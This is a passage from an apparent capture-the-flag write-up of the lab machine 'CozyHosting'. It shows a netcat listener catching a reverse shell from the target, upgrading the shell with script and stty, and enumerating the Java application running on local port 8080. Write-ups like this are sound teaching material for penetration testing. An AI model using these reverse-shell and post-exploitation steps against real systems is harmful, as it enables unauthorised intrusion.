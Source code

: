     
    oxdf@hacky$ nc -lnvp 443
    Listening on 0.0.0.0 443
    Connection received on 10.10.11.230 51348
    bash: cannot set terminal process group (1063): Inappropriate ioctl for device
    bash: no job control in this shell
    app@cozyhosting:/app$ 
    

I’ll upgrade my shell using [the script
technique](https://www.youtube.com/watch?v=DqE6DxqJg8Q):

    
    
    app@cozyhosting:/app$ script /dev/null -c bash
    script /dev/null -c bash
    Script started, output log file is '/dev/null'.
    app@cozyhosting:/app$ ^Z
    [1]+  Stopped                 nc -lnvp 443
    oxdf@hacky$ stty raw -echo; fg
    nc -lnvp 443
                reset
    reset: unknown terminal type unknown
    Terminal type? screen
    app@cozyhosting:/app$
    

## Shell as josh

### Enumeration

#### Web Application

The web application is running out of `/app`, which container a Java Jar file:

    
    
    app@cozyhosting:/app$ ls
    cloudhosting-0.0.1.jar
    

That Jar is running:

    
    
    app@cozyhosting:/app$ ps auxww | grep cloudhosting                   
    app         1063  0.7 14.9 3672520 599428 ?      Ssl  Feb26   7:37 /usr/bin/java -jar cloudhosting-0.0.1.jar
    

That process is listening on 8080:

    
    
    app@cozyhosting:/app$ netstat -tnlp | grep 1063
    (Not all processes could be identified, non-owned process info
     will not be shown, you would have to be root to see it all.)
    tcp6       0      0 127.0.0.1:8080          :::*                    LISTEN      1063/java 
    

And I can see that nginx is forwarding traffic for `cozyhosting.htb` to port
8080:
